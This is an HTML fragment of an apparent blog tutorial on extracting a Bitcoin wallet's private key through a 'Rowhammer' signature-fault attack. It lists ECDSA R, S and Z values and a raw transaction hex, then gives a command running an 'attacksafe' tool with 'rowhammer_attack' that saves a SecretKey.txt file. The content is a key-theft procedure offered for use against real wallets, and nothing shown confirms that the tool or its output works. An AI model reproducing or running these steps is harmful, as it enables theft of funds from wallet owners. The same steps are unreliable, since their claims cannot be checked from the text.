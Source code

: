 

<figure class="wp-block-image"><img src="./How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault Rowhammer Attack on Bitcoin CRYPTO DEEP TECH_files/image-159-1024x245.png" alt="How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault (Rowhammer Attack on Bitcoin)" class="wp-image-1293"></figure>



<pre class="wp-block-code"><code>R = 0xddf8c20bb701221daa1a16b69d448bd9582a9051889c0ba71d73930b61876bab
S = 0x0d66649db3f3a1b7c28984f4d08d41496ffc8488b6e35e4f2b4abdd6bdfc8805
Z = 0xf01bdd08bc326304be4dece37d9b9069959f0f8e20dbd14b840849271042ab17</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<p>To get the secret key from a vulnerable ECDSA signing transaction, let’s add the data&nbsp;<code>RawTX</code>to a text document and save it as a file<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>010000000188e589b8eed21964cb26cbdf6c396d00eeafa9e3647c9127cbdb23140952aa5b2d0000006b483045022100ddf8c20bb701221daa1a16b69d448bd9582a9051889c0ba71d73930b61876bab02200d66649db3f3a1b7c28984f4d08d41496ffc8488b6e35e4f2b4abdd6bdfc88050121031702d9ec2144df3030e65465bb96d651ea18c56c90215f4835d86e03d797091affffffff01d0020000000000001976a914e94a23147d57674a7b817197be14877853590e6e88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<h2>Launch&nbsp;<code>-tool rowhammer_attack</code>using software<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity">



<pre class="wp-block-code"><code>./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="./How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault Rowhammer Attack on Bitcoin CRYPTO DEEP TECH_files/image-160-1024x298.png" alt="How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault (Rowhammer Attack on Bitcoin)" class="wp-image-1295"></figure>
